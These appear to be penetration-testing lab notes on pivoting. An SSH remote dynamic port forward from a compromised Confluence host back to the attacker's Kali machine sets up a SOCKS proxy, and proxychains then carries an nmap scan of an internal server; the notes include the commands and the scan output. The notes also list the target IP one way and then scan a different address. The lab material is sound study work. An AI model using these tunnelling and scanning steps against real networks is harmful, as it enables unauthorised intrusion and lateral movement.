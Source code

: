 > OpenSSH _client_ needs to be version 7.6 or above to use it - the server version doesn't matter.

#### Extended Scenario
![](remote_dynamic_port_forward.png)

- Windows server (MULTISERVER03) on the DMZ network.
- Firewall prevents
	- Connecting to any port on MULTISERVER03
	- Any port other than TCP/8090 on CONFLUENCE01 from our Kali machine
- Can SSH _out_ from CONFLUENCE01 _to our Kali machine_, then create a remote dynamic port forward so we can start enumerating MULTISERVER03 from Kali.:
	- SSH session is initiated from CONFLUENCE01, connecting to Kali
	- Kali is running an SSH server
	- SOCKS proxy port is then bound to the Kali machine on TCP/9998.
	- Packets sent to that port will be pushed back through the SSH tunnel to CONFLUENCE01
	- Packets are forwarded based on where they're addressed - in this case, MULTISERVER03.

#### Execution

CONFLUENCE01 - **192.168.228.63**
PGDATABASE01 - **10.4.228.215**
MULTISERVER03 - **192.168.228.64**

- Per previous, gain reverse shell on CONFLUENCE01 via curl & CVE vuln
- Upgrade to TTY
- Start SSH Dynamic Remote Port Forward
```bash
ssh -N -R 9998 kali@192.168.45.196
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '192.168.45.196 (192.168.45.196)' can''t be established.
	ECDSA key fingerprint is SHA256:Z6AWTPQLtEMVjOkkRmrchK5U1cx9L6Dek+5Gx8+icic.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	kali@192.168.45.196''s password:
```

- Edit proxychains config file and exploit
```bash
sudo vim /etc/proxychains4.conf
	# Last line
	socks5 127.0.0.1 9998


proxychains nmap -vvv -sT -Pn -n --top-ports=20 10.4.228.64
	...
	PORT     STATE  SERVICE       REASON
	21/tcp   closed ftp           conn-refused
	22/tcp   closed ssh           conn-refused
	23/tcp   closed telnet        conn-refused
	25/tcp   closed smtp          conn-refused
	53/tcp   open   domain        syn-ack
	80/tcp   open   http          syn-ack
	110/tcp  closed pop3          conn-refused
	111/tcp  closed rpcbind       conn-refused
	135/tcp  open   msrpc         syn-ack
	139/tcp  closed netbios-ssn   conn-refused
	143/tcp  closed imap          conn-refused
	443/tcp  closed https         conn-refused
	445/tcp  closed microsoft-ds  conn-refused
	993/tcp  closed imaps         conn-refused
	995/tcp  closed pop3s         conn-refused
	1723/tcp closed pptp          conn-refused
	3306/tcp closed mysql         conn-refused
	3389/tcp open   ms-wbt-server syn-ack
```